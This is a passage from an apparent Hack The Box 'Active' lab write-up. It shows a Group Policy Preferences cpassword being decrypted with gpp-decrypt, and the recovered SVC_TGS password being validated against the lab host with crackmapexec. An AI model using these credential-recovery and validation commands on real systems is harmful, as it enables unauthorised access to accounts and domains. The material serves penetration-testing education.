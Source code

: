 Let's rename and open it:

![groups_xml](screenshots/groups_xml.png)

There are two interesting values:

- cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
- userName="active.htb\SVC_TGS"

The `cpassword` value is an **AES-encrypted password**, but Microsoft published the encryption key years ago, making this a critical vulnerability.

We decrypt it using the `gpp-decrypt` tool:

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```

![svg_tgs_credentials](screenshots/svg_tgs_credentials.png)

**Credentials retrieved:**  
Username: `SVC_TGS`  
Password: `GPPstillStandingStrong2k18`

### 2.6 Credential Validation

We test the credentials with CrackMapExec:

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

![crackmapexec_svg_tgs](screenshots/crackmapexec_svg_tgs.png)

Login successful — the credentials are valid.

### 2.7 Explore Shares with Credentials

With valid credentials, we enumerate shares again:
